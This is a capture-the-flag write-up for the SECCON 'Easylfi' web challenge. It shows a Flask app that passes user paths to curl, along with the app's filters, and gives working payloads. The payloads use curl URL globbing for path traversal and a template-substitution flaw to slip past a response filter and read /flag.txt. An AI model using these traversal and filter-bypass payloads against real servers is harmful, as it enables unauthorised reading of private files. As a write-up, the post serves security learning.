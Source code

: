 ```yaml
---
title: Easylfi
published: true
ayout: post
date: 2022-10-15 18:54 +0600
tags: [CTF]
featured: false
---
```


I solved some web challenges with my idol ginoah. The challenges are awesome!

Description:

Can you read my secret?

The goal is to LFI /flag.txt

This flask app use curl to get a local file

```code
        proc = subprocess.run(
            ["curl", f"file://{os.getcwd()}/public/{filename}"],
            capture_output=True,
            timeout=1,
        )
```

where filename is a path parameter

```code
@app.route("/")
@app.route("/<path:filename>")
def index(filename: str = "index.html"):
```

Apparently, we need to traverse like ../../../../flag.txt

There are two WAFs. The first one filter filename with % or ..

```code
    if ".." in filename or "%" in filename:
        return "Do not try path traversal :("
```

Here, we use [URL globbing](https://everything.curl.dev/cmdline/globbing) to bypass the first WAF. {.}{.}/ equals to ../ , so

we can access flag.txt with {.}{.}/{.}{.}/flag.txt

The second WAF filter any response with content SECCON

```code
@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response(b"Try harder")
    return response
```

I found a logic flaw in validate func used by custom template func. We can substitue any string for { , though the function is intented to allow only keys like {...}

```code
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
```

But there's still a problem. We can only replace one { now, and it is not enough to enclose SECCON in curly brackets.

ginoah found that we can use {.,.} to make the filename we curl reflected in the output. e.g.

```code
$ curl 'file:///app/public/{.}{.}/{.}{.}/flag.tx{\{,t}'
--_curl_--file:///app/public/../../flag.tx{
--_curl_--file:///app/public/../../flag.txt
SECCON{dummydummy}
```

Now we have two { , we can replace the output twice to eliminate string SECCON by GET /{.}{.}/{.}{.}/flag.tx{\{,t}?{=}{&{%0a--curl--file:///app/public/../../flag.txt%0aSECCON}=FLAG

The original solution by ginoah is trickier and shorter than it. We can use query string in file:// protocol, though it takes no effect.  The query string is revealed in the output e.g.

```code
$ curl 'file:///app/public/{.}{.}/{.}{.,.}/flag.txt?\{'
--_curl_--file:///app/public/../../flag.txt?{
SECCON{dummydummy}
--_curl_--file:///app/public/../../flag.txt?{
SECCON{dummydummy}
```

Then, we can get the flag by

```GET /{.}{.}/{.}{.}/{.}{.,.}/flag.txt%3f\{?{=}{&{%0aSECCON}=x```